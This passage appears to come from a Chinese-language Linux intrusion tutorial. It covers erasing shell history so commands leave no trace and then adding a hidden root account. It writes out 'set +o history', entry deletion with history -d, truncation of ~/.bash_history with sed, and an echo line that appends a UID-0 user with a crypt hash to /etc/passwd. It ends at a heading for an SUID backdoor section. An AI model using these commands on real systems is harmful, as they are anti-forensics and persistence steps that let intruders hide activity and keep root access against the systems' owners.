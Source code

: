 ### 1.3	历史删除命令

在shell中执行的命令，不希望被记录在命令行历史中，如何在linux中开启无痕操作模式呢？

**技巧一：只针对当前的工作关闭历史记录**

~~~
[space]set +o history  #备注：[space]表示空格，并且由于空格的缘故，该命令本身也不会被记录
~~~

上面的命令会临时禁用历史命令功能，这意味着在这命令之后你执行的所有操作都不会记录在历史中，然而这个命令之前的所有东西都会原样记录在历史列表中。

要重新开启历史功能，执行下面的命令：

~~~
[space]set -o history #将环境恢复原状
~~~

**技巧二：从历史记录中删除指定的命令**

假设历史记录中已经包含了一些你不希望记录的命令。这种情况下我们该怎么办？很简单，通过下面的命令来删除：

~~~
history | grep “keyword”
~~~

输出历史记录中匹配的命令，每一条前面会有个数字。从历史记录中删除那个指定的项：

~~~
history -d [num]
~~~

删除大规模历史操作记录，这里我们只保留前150行：

~~~
sed -i '150,$d' ~/.bash_history
~~~

### 1.4 passwd增加用户

~~~
/etc/passwd	各部分含义：
用户名：密码：用户id:组id：身份描述：用户的家目录：用户登录后所使用的shell
~~~

/etc/shadow 各部分含义：
用户名：密码的MD5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口令失效的天数：口令失效以后帐号会被锁定多少天：用户帐号到期时间：保留字段尚未使用

写入举例：

~~~
$perl -le 'print crypt("passwd","salt")'
sadtCr0CILzv2
~~~

~~~
$echo "m123:sadtCr0CILzv2:0:0::/root:/bin/bash" >> /etc/passwd
~~~

## 2. suid后门
